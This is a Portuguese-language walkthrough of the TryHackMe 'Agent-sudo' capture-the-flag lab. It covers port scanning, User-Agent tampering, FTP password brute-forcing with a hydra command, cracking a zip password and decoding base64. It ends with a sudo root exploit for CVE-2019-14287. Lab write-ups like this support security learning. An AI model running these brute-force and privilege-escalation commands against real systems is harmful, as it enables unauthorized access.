

# Sala Agent-sudo do TryHackMe


# Description

You found a secret server located under the deep sea. Your task is to hack inside the server and reveal the truth.


# Requisitos para invasão
- [x] BurpSuite


# Realizando o scan no alvo encontramos 3 portas abertas 


```
nmap 10.10.189.69 

```

## Tela inicial onde temos a dica do user-agent


## Depois de alterar o User-agent para R, onde percebi que tem uma saída diferente, fiz um bruteforce com o intruder do burp para encontrar outros usuários onde encontrei o usuário C


## Ao ser redirecionado alterando o user-agent, descobrimos o nome verdadeiro do usuário, e com isso podemos realizar um bruteforce no ftp tanto para o usuário chris tanto para o C


## Descobrimos a senha do alvo


```
hydra -L possiveis_login -P /usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-1000000.txt ftp://10.10.189.69
```

~só consegui até aqui sem  o writeup ~


## Extrair o zip da imagem


## Quebrando a senha do zip


## Extraindo arquivo


## Senha em base64 do outro arquivo


## Com isso conseguimos achar a ultima messagem que é a senha do ssh do alvo


## Dentro do ssh encontrei a imagem de um alien


## Procurei imagem no google


## Encontrei o caso na foxnews


## root no ssh


CVE:
https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-14287

Comando root
```
sudo -u \#$((0xffffffff)) /bin/bash
```